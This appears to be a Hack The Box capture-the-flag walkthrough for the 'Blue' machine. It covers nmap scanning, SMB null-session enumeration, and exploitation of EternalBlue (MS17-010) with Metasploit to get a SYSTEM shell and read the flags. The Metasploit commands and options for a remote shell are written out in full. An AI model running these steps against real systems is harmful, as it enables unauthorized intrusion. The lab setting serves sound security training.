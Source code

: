 ```yaml
---
title: "Blue | HackTheBox Walkthrough"
date: 2025-06-10
excerpt: Walkthrough of HTB’s Blue, covering SMB enumeration, null sessions, and EternalBlue (MS17-010) exploitation.
categories:
  - htb               
header:
  teaser: /assets/images/htb/blue/blue.png
---
```


<img src="/assets/images/htb/blue/blue.png"
     alt="Alt text describing the image"
     class="align-center"      
     style="max-width: 600px;" />

# Overview
Blue is considered a beginner-friendly box on Hack The Box; its purpose was to teach a valuable lesson about how unpatched systems can become vulnerable. The EternalBlue exploit had severe implications worldwide and has been used in large-scale ransomware attacks. It targeted Windows Server Message Block (SMB) protocol, which is used for shared access to files, printers, and other network resources. Why was it so critical? Windows is one of the most widely used operating systems globally, and this exploit, which leveraged the SMBv1 bug, enabled remote code execution attacks on the target system. 

---

## Full Port Scan and Initial Enumeration

I kicked off with a full TCP port scan using aggressive timing to identify open services quickly.

---

```bash
nmap -sCV -p- <ip> --min-rate=1000 --min-parallelism=1000 -v
```

**Key Flags:**
- `-sC`: runs default Nmap scripts
- `-sV`: enables version detection
- `-p-`: Scans all 65535 ports
- `--min-rate=1000`: sends packets faster than the default rate.
- `--min-parallelism=1000`: sends probes in parallel for speed.

> I only use `--min-rate` and `--min-parallelism` in CTF environments to speed up discovery.

```
Nmap scan report for 10.129.13.80
Host is up (0.067s latency).
Not shown: 65526 closed tcp ports (reset)
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-06-10T23:29:27+01:00
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-06-10T22:29:29
|_  start_date: 2025-06-10T22:12:45
|_clock-skew: mean: -4h40m37s, deviation: 34m37s, median: -4h20m38s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
```
From the nmap result we have 9 ports that are open which are all MSRPC besides 2.
Ports `139` and `445` which are used for SMB.
looking further down in host script results we see that windows 7 professional is installed, and the computer name is Haris-PC.

---

## SMB Enumeration and Null Session Access

After seeing ports `139` and `445` open, I decided to check for unauthenticated SMB Access:

```bash
smbclient -L \\\\ip\\ -N
```


**Key Flags:**
- `-L`: This option allows you to list the existing shares.
- `-N`: Allows us to try and connect to SMB without credentials (Null Session)  

![](/assets/images/htb/blue/2smb.png)

This tests for null session access, and it worked! I was able to list all the available shares for us.
To further enumerate share permissions, I ran:

```bash
nmap <ip> -p 445 --script=smb-enum-shares
```
This confirmed that several shares are readable and that SMBv1 was active. This is generally a red flag on older Windows systems due to its easy exploitation.
![](/assets/images/htb/blue/3nmapsmb.png)

---

## Finding The Vulnerability: MS17-010

From our Nmap scan, we can see that the target is running Windows 7 Pro, and SMBv1 is enabled. After a quick Google search for `Windows 7 Professional 7601 vulnerability`, we were met with several pages, including Microsoft talking about MS17-010, which is the EternalBlue exploit, which was a remote code execution vulnerability.

![](/assets/images/htb/blue/4googleblue.png)

---

## Exploiting EternalBlue with Metasploit

```bash
msfconsole
search eternalblue
use exploit/windows/smb/ms17_010_eternalblue
```
Instead of typing the whole exploit path, as I just showed, we could also use the corresponding number. In my case, it was 0

![](/assets/images/htb/blue/5msf.png)

After this, I set up the required options by typing 'options' and filling in the RHOST, LHOST, and LPORT fields.

**key Flags**
- `RHOST`: is the remote host, which in our case is the HTB IP.
- `LHOST` is for our local host.
- `LPORT`: is for the port we want to use

```bash
set RHOST 10.129.13.80
set LHOST <OUR  IP>
set LPORT 4444 # or whichever port you would like to use
```

![](/assets/images/htb/blue/6setup.png)

I ran `check` to verify if the host was vulnerable, and metasploit confirmed it.

```bash
check
```

![](/assets/images/htb/blue/7check.png)

After confirmation, I typed 'run' and the exploit executed. Once we see `meterpreter>` we can type shell to get a shell and we are in as system!

```bash
run
```
![](/assets/images/htb/blue/8run.png)

```bash
shell
```

![](/assets/images/htb/blue/9pwnd.png)

---

## Post-Exploitation and Flags

With full system access I was able to retrieve the user and root flags by going through Haris' folder and administrator.
Both flags reside on the desktop of each user.

```bash
cd C:\Users
dir

cd Haris\Desktop
type user.txt
```
![](/assets/images/htb/blue/10user.png)

```bash
cd ..\Administrator\Desktop
type root.txt
```
![](/assets/images/htb/blue/11root.png)

Flags obtained:

- `user.txt`: ✔️  
- `root.txt`: ✔️

---

## Key Takeaways
- Always check for null sessions when SMB is open
- SMBv1 is still in use and can be easily exploited, as we have demonstrated.
- Always use multiple tools! In our case, we did use smbclient with nmap to get a better picture early on.

More info: [MS17-010 (CVE-2017-0144)](https://nvd.nist.gov/vuln/detail/CVE-2017-0144)
---


